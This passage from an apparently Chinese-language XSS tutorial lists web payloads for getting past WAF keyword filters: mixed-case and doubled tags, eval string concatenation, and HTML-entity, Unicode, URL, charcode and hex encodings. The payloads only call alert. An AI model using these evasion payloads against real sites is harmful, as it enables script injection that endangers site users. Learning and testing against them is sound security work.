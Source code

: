 ### 4.关键字过滤

```js
大小写绕过

<sCRiPt>alert(1);</sCrIpT>

<ImG sRc=x onerRor=alert(1);>

双写绕过

有些waf可能会只替换一次且是替换为空，这种情况下我们可以考虑双写关键字绕过

<scrscriptipt>alert(1);</scrscriptipt>
<imimgg srsrcc=x onerror=alert(1);>
```

### 5.字符串拼接绕过

```js
利用eval()函数

与PHP的eval()函数相同，JavaScript的eval()函数也可以计算 JavaScript 字符串，并把它作为脚本代码来执行。

<img src="x" onerror="a='aler';b='t';c='(1)';eval(a+b+c)">
<img src="x" onerror="a=`aler`;b=`t`;c='(`xss`);';eval(a+b+c)">
// 在js中，我们可以用反引号代替单双引号
```

### 6.编码绕过

```js
Unicode编码绕过

<img src="x" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#34;&#120;&#115;&#115;&#34;&#41;&#59;">

javasc&#x72;&#x69;pt:alert(/xss/)     (编码了r和i)

<img src="x" onerror="eval('\u0061\u006c\u0065\u0072\u0074\u0028\u0022\u0078\u0073\u0073\u0022\u0029\u003b')">

url编码绕过

<img src="x" onerror="eval(unescape('%61%6c%65%72%74%28%22%78%73%73%22%29%3b'))">
<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>

Ascii码绕过

<img src="x" onerror="eval(String.fromCharCode(97,108,101,114,116,40,34,120,115,115,34,41,59))">

hex绕过

<img src=x onerror=eval('\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29')>
```
